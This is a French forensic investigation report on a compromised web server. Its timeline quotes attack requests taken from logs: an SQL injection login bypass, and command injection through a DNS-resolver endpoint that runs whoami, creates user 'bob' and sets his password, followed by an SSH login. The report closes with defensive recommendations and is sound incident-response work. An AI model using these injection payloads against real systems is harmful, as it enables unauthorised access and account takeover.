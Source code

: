 # Rapport d'Investigation

**Auteur :** Cyril D.  
**Date :** 19/03/2024  

## Objectifs
- Retracer la timeline des événements.
- Déterminer si le serveur a été compromis.
- Fournir des recommandations.

## Analyse des Preuves

### Hash SHA256 des éléments transmis
- infected.zip : 3D24ABC43FD9C1F7A35F1FA92C18E0E756887FCDD1B5F4BDD63309D6035D7333

### Chronologie des Événements
| Date & Heure         | Source (Log) | Événement                               | Détails complémentaires                  |
|----------------------|--------------|-----------------------------------------|------------------------------------------|
| N/A  | Server.log     | Vol de token      | via la request POST {"user":"'or '1'='1", "passwd":"'or '1'='1" dans https://192.168.42.129:3000/Login|
| N/A  | Server.log       | Lance une commande whoami      | via GET https://192.168.42.129:3000/LocalDNSResolver?i=google.com;whoami|
| 02/10/2024 13:17:49  | Server.log     | création d’un nouvel utilisateur "bob"      |  via https://192.168.1.200:3000/LocalDNSResolver?i=google.com;useradd+bob               |
| 02/10/2024 13:35:55  | Server.log    | Modification du mdp de bob      | GET https://192.168.1.200:3000/LocalDNSResolver?i=google.com;echo+"azerty123456"+|+sudo+passwd+--stdin+bob   |
| 02/10/2024 13:36:07  | auth.log   | Connexion SSH réussie juste après le changement de mot de passe de 192.168.1.176      | Oct  2 13:36:07 michael-u2204 sshd[5650]: Accepted password for bob from 192.168.1.176 port 58814 ssh2   |


---

## Conclusion
Plusieurs attaques via des requetes web on été effectué, certaine ont réussi en creer un utilisateur qui a pu avoir accés au serveur.

---

## Recommandations
- Limiter l'exposition des services : Fermer tous les ports non nécessaires
- Installer et configurer fail2ban pour bloquer les IP effectuant des scans répétitifs
- Corriger les vulnerabilité de l’application web
- Changer les tokens compromis, et stocker les nouveaux de manière sécurisé
- Utiliser des mot de passe fort, voir la double authentification



## Fichiers logs
- [log.zip](log.zip)
